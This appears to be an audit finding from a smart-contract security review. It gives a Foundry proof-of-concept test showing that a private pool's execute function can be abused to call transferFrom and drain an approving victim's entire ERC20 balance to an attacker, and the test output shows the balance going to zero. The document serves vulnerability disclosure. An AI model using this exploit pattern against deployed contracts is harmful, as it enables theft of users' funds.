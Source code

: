 Please add the POC below to Execute.t.sol:

```solidity
  function testStealFundArbitrary_POC() public {
        MyToken token = new MyToken();

        address victim = vm.addr(1040341830);
        address hacker = vm.addr(14141231201);

        token.mint(victim, 100000 ether);

        vm.prank(victim);
        token.approve(address(privatePool), type(uint256).max);

        console.log(
            "token balance of victim before hack",
            token.balanceOf(victim)
        );

        address target = address(token);
        bytes memory data = abi.encodeWithSelector(
            ERC20.transferFrom.selector,
            victim,
            hacker,
            token.balanceOf(victim)
        );

        privatePool.execute(target, data);

        console.log(
            "token balance of victim  after hack",
            token.balanceOf(victim)
        );
    }
```

We run the POC, the output is:

```solidity
PS D:\2023Security\2023-04-caviar> forge test -vv --match "testStealFundArbitrary_POC"
[⠒] Compiling...
[⠑] Compiling 1 files with 0.8.19
[⠃] Solc 0.8.19 finished in 8.09s
Compiler run successful

Running 1 test for test/PrivatePool/Execute.t.sol:ExecuteTest
[PASS] testStealFundArbitrary_POC() (gas: 753699)
Logs:
  token balance of victim before hack 100000000000000000000000
  token balance of victim  after hack 0
```

As we can see, the victim's ERC20 token are stolen.
